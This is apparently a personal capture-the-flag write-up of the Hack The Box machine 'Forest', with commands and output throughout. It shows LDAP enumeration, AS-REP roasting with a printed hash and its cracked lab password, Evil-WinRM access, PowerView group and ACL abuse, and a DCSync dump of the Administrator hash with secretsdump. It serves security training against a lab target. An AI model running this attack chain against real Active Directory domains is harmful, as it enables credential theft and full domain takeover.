Forest
Machine info

https://app.hackthebox.com/machines/Forest
- Difficulty: Easy
- OS: Windows
- Release date: 12 Oct, 2019
- Rooted on: 31 Jul, 2024
IP changes on target are due to machine resets.
Foothold/User
Q1: For which domain is this machine a Domain Controller?
Ran port scan with nmap:
$ cat nmap/initial.nmap # Nmap 7.94SVN scan initiated Thu Jul 25 17:11:19 2024 as: nmap -sCV -oN nmap/initial.nmap 10.129.95.210
Nmap scan report for 10.129.95.210
Host is up (0.17s latency).
Scanned at 2024-07-25 17:11:19 -03 for 513s
Not shown: 989 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-07-25 20:26:15Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2024-07-25T20:26:25
|_ start_date: 2024-07-25T18:00:00
|_clock-skew: mean: 2h26m50s, deviation: 4h02m32s, median: 6m48s
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: FOREST
| NetBIOS computer name: FOREST\x00
| Domain name: htb.local
| Forest name: htb.local
| FQDN: FOREST.htb.local
|_ System time: 2024-07-25T13:26:29-07:00
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 36501/tcp): CLEAN (Couldn't connect)
| Check 2 (port 37941/tcp): CLEAN (Couldn't connect)
| Check 3 (port 32697/udp): CLEAN (Timeout)
| Check 4 (port 13345/udp): CLEAN (Failed to receive data)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 25 17:19:52 2024 -- 1 IP address (1 host up) scanned in 513.31 secondsR1: htb.local
Q2: Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM
Attempting SMB
$ smbclient -L 10.129.95.210 -U guestPassword for [WORKGROUP\guest]:
session setup failed: NT_STATUS_ACCOUNT_DISABLEDAttempting LDAP
$ ldapsearch -H ldap://10.129.36.185:389/ -x -b 'dc=htb,dc=local' "(objectClass=*)" *# extended LDIF
#
# LDAPv3
# base <dc=htb,dc=local> with scope subtree
# filter: (objectClass=*)
# requesting: Desktop Documents Downloads Music Pictures Public Templates Videos htb
#
# htb.local
dn: DC=htb,DC=local
# Users, htb.local
dn: CN=Users,DC=htb,DC=local
# Allowed RODC Password Replication Group, Users, htb.local
dn: CN=Allowed RODC Password Replication Group,CN=Users,DC=htb,DC=local
# Denied RODC Password Replication Group, Users, htb.local
dn: CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
# Read-only Domain Controllers, Users, htb.local
...R2: LDAP
Q3: Which user has Kerberos Pre-Authentication disabled?
Took a while to craft this query:
$ ldapsearch -H ldap://10.129.36.185:389/ -x -b 'ou=Employees,dc=htb,dc=local' "(&(objectClass=user)(objectClass=person))" +# extended LDIF
#
# LDAPv3
# base <ou=Employees,dc=htb,dc=local> with scope subtree
# filter: (&(objectClass=user)(objectClass=person))
# requesting: +
#
# Sebastien Caron, Exchange Administrators, Information Technology, Employees,
htb.local
dn: CN=Sebastien Caron,OU=Exchange Administrators,OU=Information Technology,OU
=Employees,DC=htb,DC=local
# Santi Rodriguez, Developers, Information Technology, Employees, htb.local
dn: CN=Santi Rodriguez,OU=Developers,OU=Information Technology,OU=Employees,DC
=htb,DC=local
# Lucinda Berger, IT Management, Information Technology, Employees, htb.local
dn: CN=Lucinda Berger,OU=IT Management,OU=Information Technology,OU=Employees,
DC=htb,DC=local
# Andy Hislip, Helpdesk, Information Technology, Employees, htb.local
dn: CN=Andy Hislip,OU=Helpdesk,OU=Information Technology,OU=Employees,DC=htb,D
C=local
# Mark Brandt, Sysadmins, Information Technology, Employees, htb.local
dn: CN=Mark Brandt,OU=Sysadmins,OU=Information Technology,OU=Employees,DC=htb,
DC=local
# search result
search: 2
result: 0 Success
# numResponses: 6
# numEntries: 5After that, I also tried many other ldapsearch queries in order to find the right user, but only managed to do so by running enum4linux later, with all basic enumeration. Here is the one I thought would be the most promising:
$ ldapsearch -H ldap://10.129.36.185:389/ -x -b 'dc=htb,dc=local' "(objectClass=user)"| grep "sAMAccountName: " | sed s/"sAMAccountName: "//g | cat -n 1 Guest
2 DefaultAccount
3 FOREST$
4 EXCH01$
5 $331000-VK4ADACQNUCA
6 SM_2c8eef0a09b545acb
7 SM_ca8c2ed5bdab4dc9b
8 SM_75a538d3025e4db9a
9 SM_681f53d4942840e18
10 SM_1b41c9286325456bb
11 SM_9b69f1b9d2cc45549
12 SM_7c96b981967141ebb
13 SM_c75ee099d0a64c91b
14 SM_1ffab36a2f5f479cb
15 HealthMailboxc3d7722
16 HealthMailboxfc9daad
17 HealthMailboxc0a90c9
18 HealthMailbox670628e
19 HealthMailbox968e74d
20 HealthMailbox6ded678
21 HealthMailbox83d6781
22 HealthMailboxfd87238
23 HealthMailboxb01ac64
24 HealthMailbox7108a4e
25 HealthMailbox0659cc1
26 sebastien
27 lucinda
28 andy
29 mark
30 santiHowever, when trying to run impacket-GetNPUsers with those usernames, it’s output stated that none of the accounts had the UF_DONT_REQUIRE_PREAUTH property set.
Then I tried enum4linux:
$ enum4linux -a 10.129.95.210 | tee enum4linux.out
Why didn’t I find that user in any of my ldapsearch queries?
It happens that, in this case, since the server allows anonymous bind, it isn’t necessary to get a list of usernames before running the GetNPUsers script. It already requests for the users who have that property set and then asks for the TGTs.

Following with my solve, I included that username in my list and tried running the impacket script again.
$ impacket-GetNPUsers htb.local/ -dc-ip 10.129.36.185 -outputfile hash.txt -format hashcat -usersfile usernames-custom.txtImpacket v0.12.0.dev1 - Copyright 2023 Fortra
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User FOREST$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User EXCH01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b7292cee1a66a28f8b67fb064553a38d$663f567fbc37b84a525e6761682e354a1d4c13e10db57d41d194e13301528c48b687200a8e00d7f6e0c117d54c7034502075391ba970b0dce19868c6a0c9d2d9ddceb96c051955d3e168b198e9021f9f0b2132be9dcd46fb1b90edd2e7f40cb091ae8f0c7c833807621948aa3a7cfa9e6f2f078203f3bb2cbab21585d42655753259a0e5aa1245dab21b363e9e9fd3f1fad5919b09e4f9065a458a7b9df001af31681d01d15f220e02d4f2f69efb1cb41eb0ec63e4b749bdb1e30fa710ea2a159a603e69cd990fa1bc29eae7e08fd8cf91ac02f03793028b1bae9814571efa251e829371f327By that output, we can notice that many of the usernames could’ve been excluded from my list.
This technique is known as AS-REP Roasting.
R3: svc-alfresco
Q4: What is the password of the user svc-alfresco?
$ hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
R4: s3rvice
Q5: To what port can we connect with these creds to get an interactive shell?
As I wasn’t sure if any of the ports I’d found in the initial nmap scan could be hosting some kind of remote shell service, I decided to run another one through all of the TCP ports in the host.
$ cat nmap/complete.nmap# Nmap 7.94SVN scan initiated Tue Jul 30 00:38:14 2024 as: nmap -sCV -p- --min-rate=1000 -oN nmap/complete.nmap 10.129.36.185
Increasing send delay for 10.129.36.185 from 320 to 640 due to 89 out of 295 dropped probes since last increase.
Warning: 10.129.36.185 giving up on port because retransmission cap hit (10).
Nmap scan report for htb.local (10.129.36.185)
Host is up (0.17s latency).
Scanned at 2024-07-30 00:38:15 -03 for 157s
Not shown: 65211 closed tcp ports (conn-refused), 300 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-07-30 03:46:34Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49676/tcp open msrpc Microsoft Windows RPC
49677/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49681/tcp open msrpc Microsoft Windows RPC
49698/tcp open msrpc Microsoft Windows RPC
49925/tcp open msrpc Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
...None of these seemed like an obvious remote access service to me, so I’ve decided to take a look at the hint, which said that it would be interesting to check if WinRM was open.
After googling “winrm”, I noticed that it used 5985 as it’s default port, which we found open in the nmap scan.
R5: 5985
I’ve found a couple of solutions to connect to the machine at this point. The most simple seemed to be using straight PowerShell, which comes pre-installed on Kali as pwsh, and then connecting to the remote machine using the Enter-PSSession command. That didn’t work, so used Evil-WinRM instead.

PS C:\Users\svc-alfresco\Documents> ls C:\Users Directory: C:\Users
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 9/18/2019 10:09 AM Administrator
d-r--- 11/20/2016 6:39 PM Public
d----- 9/22/2019 3:29 PM sebastien
d----- 9/22/2019 4:02 PM svc-alfrescoRoot
Q6: Which group has WriteDACL permissions over the HTB.LOCAL domain? Give the group name without the @htb.local.
At this point, I decided to setup BloodHound, which consists in uploading the data collector script to the target, running it, download the resultant .zip file and importing it into the BloodHound client.
With bloodhound, we can have a graphic and logical view of the whole Active Directory, and also take advantage of many available queries that can give us insights on how to proceed with the privilege escalation.
From bloodhound, we can find our current user under the menu, on Analysis > Kerberos Interaction > find AS-REP Roastable Users. We can mark it as owned.
Then, we can execute the “Shortest Path to High Value Targets” query, giving us this messy result.

By zooming closer to the domain’s icon, we find the answer to the current question.

Here is the Microsoft definition for DACL: “An access control list that is controlled by the owner of an object and that specifies the access particular users or groups can have to the object”
This means that if we are somehow able to get access to the “Exchange Windows Permissions” group we could grant ourselves any access control permissions over the domain.
R6: Exchange Windows Permissions
Q7: The user svc-alfresco is a member of a group that allows them to add themself to the “Exchange Windows Permissions” group. Which group is that?
Still in the result of the same query, we see that the group “Account Administrators”, which we are in, has the permission “GenericAll” over the target group.

This GenericAll permission means that we can manipulate the object, which in this case is a group, in any way we want. By having this permission, we can add ourselves to the “Exchange Windows Permissions” group and explore it’s WriteDACL permission over the domain.
R7: Account Operators
I imported PowerView into the machine in order to continue.
Firstly, I created a user using the net.exe utility.

Then, I added my user to the “Remote Management Users” group, in order to be able to access it with evil-winrm.
PS C:\Users\svc-alfresco\Documents> Add-DomainGroupMember -Identity "Remote Management Users" -Members zetsuFinally, added the account to the target group.
PS C:\Users\svc-alfresco\Documents> Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members zetsuNow we can connect to our user in a new WinRM session.

Q8: Which of the following attacks you can perform to elevate your privileges with a user that has WriteDACL on the domain? PassTheHash, PassTheTicket, DCSync, KrbRelay
I had to take a look at the hint for this one. It indicated that bloodhound has a help section, which can be accessed by right-clicking the line which connects the Exchange Windows Permissions group and the domain object.

R8: DCSync
From the HackTricks page: “The DCSync attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.”
What the WriteDACL permission allows us to do here is granting ourselves the permissions over the domain that are necessary to perform a DCSync attack. We can do so with PowerView.
PS C:\Users\zetsu\Documents> $SecPassword = ConvertTo-SecureString 'chinforinfola' -AsPlainText -Force
PS C:\Users\zetsu\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\zetsu', $SecPassword)
PS C:\Users\zetsu\Documents> Add-ObjectACL -PrincipalIdentity zetsu -Credential $Cred -Rights DCSyncNow, we can use secretsdump.py to perform the actual attack.
$ secretsdump.py -just-dc <username>:<password>@<target-ip> -outputfile <filename>
Getting Administrator NT hash. Check this WikiPedia article for reference on the hash format.
We can use that hash to login, now as Administrator, using evil-winrm.

That was the box. Besides checking the Microsoft documentation for PowerShell commands now and then, I mostly used HackTricks as reference, so I really recommend the reading.
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology